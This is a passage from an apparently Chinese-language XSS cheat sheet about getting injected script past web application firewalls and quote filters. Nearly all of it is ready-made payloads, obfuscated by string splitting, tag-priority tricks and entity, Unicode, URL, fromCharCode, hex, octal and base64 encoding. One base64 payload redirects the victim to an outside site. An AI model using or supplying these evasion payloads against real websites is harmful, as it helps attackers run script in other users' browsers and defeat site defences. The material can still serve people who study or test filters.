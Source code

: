 利用 top

    <script>top["al"+"ert"](`xss`);</script>

### 其它字符混淆

有的 waf 可能是用正则表达式去检测是否有 xss 攻击，如果我们能 fuzz 出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了  
下面举几个简单的例子

    可利用注释、标签的优先级等
    1.<<script>alert("xss");//<</script>
    2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
    3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>

### 编码绕过

Unicode 编码绕过

<img src\="x" onerror\="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;"\>

<img src\="x" onerror\="eval('\\u0061\\u006c\\u0065\\u0072\\u0074\\u0028\\u0022\\u0078\\u0073\\u0073\\u0022\\u0029\\u003b')"\>

url 编码绕过

<img src\="x" onerror\="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))"\>

    <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii 码绕过

<img src\="x" onerror\="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))"\>

hex 绕过

    <img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制

    <img src=x onerror=alert('\170\163\163')>

base64 绕过

    <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

## 过滤双引号，单引号

1.如果是 html 标签中，我们可以不用引号。如果是在 js 中，我们可以用反引号代替单双引号

    <img src="x" onerror=alert(`xss`);>

2.使用编码绕过，具体看上面我列举的例子，我就不多赘述了
